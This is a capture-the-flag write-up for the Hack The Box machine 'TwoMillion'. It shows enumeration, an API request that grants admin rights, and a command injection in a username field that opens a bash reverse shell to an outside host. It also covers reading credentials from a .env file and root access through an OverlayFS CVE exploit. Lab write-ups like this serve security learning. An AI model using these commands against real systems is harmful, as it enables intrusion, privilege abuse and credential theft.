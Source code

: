 # TwoMillion
## Enumeration
```nmap  10.10.11.221```
We can see that we have a ssh port open and a http port open.
Now let's write this : "10.10.11.221	2million.htb" in /etc/hosts in order to access the web site.
## Brut forcing directories
```gobuster dir -u http://10.10.11.221 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -b 301```
We can see a /invite directory.
Let's go to http://2million.htb/invite.
## Creating an account
Here we see that we need an invite code in order to create an account.
If we go to the inspector of our web site and check the different allowed function, we find the makeInviteCode() function.
When we use it we get the ROT13 code : "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" that when decode become : "In order to generate the invite code, make a POST request to /api/v1/invite/generate".
Using BurpSuite we can make the POST request, it gives us an encrypted invite code that we can decrypt using base 64.
Then we get to create an account with this code!
## Getting an admin account
Now if we go to http://2million.htb/api/v1 we can find a list of endpoint with what they do.
and if we try to do a PUT request on the /api/v1/admin/settings/update with our connection cookie, we get a 200 status. But the response ask us to give a header and some data.
Here is the full request : ```curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=tnms38fmujol34l7m08fttls8v" --header "Content-Type: application/json" --data '{"email":"test@htb.com","is_admin":1}' | jq```
Now our account has admin rights!
## Command injection
Now we have access to this endpoint /api/v1/admin/vpn/generate that allow command injection.
Let's set up our netcat : ```nc -lvnp 8083```
Then make our injection :
```curl -v -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=tnms38fmujol34l7m08fttls8v" --header "Content-Type: application/json" --data '{"username":"test;bash -c \"bash -i >& /dev/tcp/10.10.14.224/8083 0>&1\";"}'```
YAYY!! we got a reverse-shell!
Making our shell more interactive : ```python3 -c "import pty;pty.spawn('/bin/bash')"```
## Becoming admin in the shell
We can get the admin password by displaying the /html/.env file.
Then we can connect to admin using ssh.
We can find the user flag in /home/admin/user.txt
## Privilege escalation
We can find an email sent by HTB Godfather to admin that deals with a CVE about OverlayFS. After some research we can find that it's the CV-2023-0386.
After some research we can find the following exploit : https://github.com/Fanxiaoyao66/CVE-2023-0386.
After following the steps of the README, we became root !!
We can find the flag in /root/root.txt
